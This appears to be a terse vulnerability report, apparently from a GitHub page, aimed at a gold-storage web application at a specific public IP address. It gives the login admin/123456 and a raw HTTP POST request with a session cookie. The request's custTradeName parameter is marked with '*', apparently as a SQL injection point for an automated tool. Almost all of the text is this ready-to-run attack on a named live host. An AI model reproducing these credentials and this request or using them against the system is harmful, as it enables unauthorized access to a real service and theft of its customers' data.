

https://113.105.126.146:8900/  admin/123456

```
POST /storagework/custTakeInfoPage.htm HTTP/1.1
Host: 113.105.126.146:8900
Cookie: JSESSIONID_null_8900=120szhvp9dh7nufxi51v08bs6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded;utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 72
Origin: https://113.105.126.146:8900
Referer: https://113.105.126.146:8900/reportframework/custStorageTakeInfoSel.htm
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: close

page=1&prodidsel=Au99.99&takeStateId=00&custTradeName=代理深圳萃华*

```

